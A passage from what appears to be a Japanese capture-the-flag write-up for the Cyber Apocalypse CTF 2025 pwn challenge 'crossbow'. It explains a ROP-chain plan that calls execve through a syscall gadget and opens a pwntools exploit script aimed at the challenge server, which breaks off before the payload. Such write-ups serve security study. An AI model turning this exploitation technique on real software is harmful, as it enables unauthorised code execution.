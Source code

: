 ![80](/images/cyber-apocalypse-ctf-2025/pwn/80.png)

`pop rbp`が走るので、8バイト分差分がありROPをする際には注意が必要です。

次にどうROPchainを組むかですが、`mprotect`が使えそうだったのでShellcodeを書き込んで実行することを考えてましたが、読み込みが`0x80`バイト分しか無かったのでどこかで`read`系の関数を呼び出す必要がありました。

と、ここで`syscall`が使えることに気付きました。

![81](/images/cyber-apocalypse-ctf-2025/pwn/81.png)

ならそのまま`execve`を呼び出せばよいのではないか。ガジェットは入力バイトの節約のため色々調整しました。

```python
from pwn import *
import time

context.log_level = "debug"
binfile = './crossbow'
rhost = '83.136.251.194'
rport = 44933

gdb_script = '''
b *0x0000000000401326
'''

elf = ELF(binfile)
context.binary = elf

def conn():
    if args.REMOTE:
        p = remote(rhost, rport)
    else:
```